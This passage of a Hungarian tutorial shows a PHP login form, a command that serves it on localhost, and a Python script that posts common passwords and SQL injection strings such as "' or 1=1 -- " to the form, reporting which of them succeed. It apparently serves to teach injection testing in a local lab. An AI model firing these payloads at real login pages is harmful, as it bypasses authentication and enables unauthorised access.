 ```php
    <form method="post">
        <label for="username">Felhasználónév:</label>
        <input type="text" name="username"><br><br>
        <label for="password">Jelszó:</label>
        <input type="password" name="password"><br><br>
        <input type="submit" value="Bejelentkezés">
    </form>
</body>
</html>
```

### A szerver indítása

Indítsuk el a fenti szervert.

```bash
php -S localhost:3000 -t src
```

Az src helyére a könyvtár neve, ahol van a login.php.

* localhost:3000/login.php

### Telepítés

A Python requests könyvtárát fogjuk használni.

```bash
pip install requests
```

### A tesztelés

Nézzünk meg egyszerű tesztkódot.

test.py:

```python
import requests

url = "http://localhost:3000/login.php"

payloads = [
    ("admin", "admin"),
    ("admin", "admin_password"),
    ("admin' -- ", ""),
    ("' or 1=1 -- ", "")
]

for username, password in payloads:
  response = requests.post(
    url, 
    data={
        'username': username, 
        'password': password
        })

  # Ellenőrizzük a választ tartalmát:
  if "Sikeres bejelentkezés" in response.text:
    print(f"Sikeres támadás: {username} - {password}")
  elif "error" in response.text.lower():
    print(f"Hiba a támadás során: {username} - {password}")
  else:
    print(f"Nem működött   : {username} - {password}")

```
